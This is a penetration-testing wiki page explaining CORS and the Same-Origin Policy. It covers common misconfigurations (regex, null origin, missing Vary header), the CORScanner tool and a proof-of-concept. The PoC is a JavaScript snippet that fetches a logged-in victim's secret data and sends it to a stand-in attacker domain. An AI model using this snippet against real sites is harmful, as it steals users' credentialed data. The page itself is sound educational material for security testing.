

# 🛠️ CORS (Cross-Origin Resource Sharing)

## Theory

Sometimes browsers need to load resources from another origin other than their own. The Same-Origin Policy mechanism (SOP) restricts access to resources on other origins. 

> [!TIP]
> The same-origin is defined for two URLs that have the same protocol, port (if specified), and host.

To bypass this limitation, the JSON-P technique (in JavaScript) was introduced. To retrieve information from another origin, it uses the `<script>` tag (which is not blocked by the SOP). Unfortunately, this technique has some issues and lacks controls in some cases. Here we introduce CORS.

Cross-Origin Resource Sharing (CORS) is a header-based mechanism. It improves security and flexibility for cross-domain resource sharing. CORS is relatively new and therefore, not very well-known. As result, misconfigurations are common and bring security concerns. The main vulnerabilities lie in the overly permissive access to credentials from non-controlled domains.

### Misconfigurations

The exploitation will depend on the misconfiguration. The next image shows a path that can be followed:



#### Case 1

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: regex`

The origins are verified through a regex match.\
The misconfiguration types can be better understood with this table:


<div class="caption">https://github.com/chenjj/CORScanner</div>

> [!WARNING]
> The configuration below is [impossible](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS#requests\_with\_credentials):
>
> * `Access-Control-Allow-Credentials: true`
> * `Access-Control-Allow-Origin: *`

#### Case 2

Misconfiguration:

* `Access-Control-Allow-Credentials: true`
* `Access-Control-Allow-Origin: null`

According to [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties), browsers might send the value `null` in the `Origin` header in some unusual situations:

* Cross-site redirects.
* Requests from serialized data.
* Request using the `file:` protocol.
* Sandboxed cross-origin requests.

The value `null` when the server sends credentials is the worst-case scenario. It means any origin can request credentials without limitation.

#### Case 3

Misconfiguration:

* `Access-Control-Allow-Credentials: false`
* `Access-Control-Allow-Origin` is dynamically generated
* `Vary: Origin` is absent

In this case, it's possible to conduct a client-side poisoning.

Check [James Kettle](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)'s explanation for more information.&#x20;

## Practice

During a penetration test, exploiting CORS misconfigurations is difficult. The attacks may rely on manipulating a victim or even finding configuration issues on other domains (which can be out of scope).

However, it's possible to get a Proof-of-Concept using JavaScript by registring a domain (to abuse a CORS misconfiguration).

### Tool

The tool [CORScanner ](https://github.com/chenjj/CORScanner)is useful in finding misconfigurations. It relies on the table shown in the misconfiguration case 1.

```bash
python cors_scan.py -u $URL
```

> [!TIP]
> It is advised to use the verbose option `-v` to see the tests.

> [!WARNING]
> It is possible to customize the third parties origins in the file `origins.json`.

### Proof-of-Concept (PoC)

To steal sensitive information, the victim has to be logged in the vulnerable website. From there, if the victim is redirected to the attacker's website (containing the script below), the sensitive information will be retrieved by the attacker.

```javascript
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','https://vulnerable.domain/api/secret-data',true); 
req.withCredentials = true;
req.send();

function reqListener() {
    location='//atttacker.domain/log?response='+this.responseText; 
};
```

## Resources

[https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties](https://portswigger.net/research/exploiting-cors-misconfigurations-for-bitcoins-and-bounties)

[https://www.jianjunchen.com/publication/an-empirical-study-of-cors/](https://www.jianjunchen.com/publication/an-empirical-study-of-cors/)